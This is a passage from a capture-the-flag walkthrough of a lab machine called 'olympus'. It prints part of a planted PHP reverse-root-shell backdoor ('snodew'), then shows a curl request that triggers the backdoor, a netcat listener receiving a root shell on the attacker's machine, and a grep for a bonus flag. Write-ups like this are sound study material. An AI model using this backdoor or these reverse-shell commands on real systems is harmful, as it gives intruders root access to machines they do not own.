 We are successfull and can log in now. 

```
zeus@olympus:~$ id
uid=1000(zeus) gid=1000(zeus) groups=1000(zeus),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
zeus@olympus:~$ ls
snap  user.flag  zeus.txt
```
The note says 
```
Hey zeus !

I managed to hack my way back into the olympus eventually.
Looks like the IT kid messed up again !
I've now got a permanent access as a super user to the olympus.

```
I remember when doing enumeration for escalating to zeus user that there was a file in `/var/www/html/` that i couldn't access. But I can access it now.
We see webpage(I'm showing only first few lines that are important)
```
 cat VIGQFQFMYOST.php 
<?php
$pass = "a7c5f---redacted---129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];
```

We see that we can get reverse shell easily.

```
# curl -X POST "http://10.10.184.110/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=MYIP&port=9001" -d "password=a7c5ff---redacted---74129"                

```

Back on our netcat listener we have connection back and shell as root. 

```
# nc -lvnp 9001                                                                                                                                                                                                                        
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.184.110.
Ncat: Connection from 10.10.184.110:55186.
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:58:45 up 11 min,  1 user,  load average: 0.00, 0.62, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
zeus     pts/0    10.9.11.107      15:54    2:37   0.04s  0.04s -bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),7777(web)
```
Now the only thing left to do is to find the bonus flag that is hidden somewhere.
The hint for the bonus flag says that it is in /etc.
With this hint we can use grep to find the flag.
```
root@olympus:/root# grep -irl flag{ /etc
```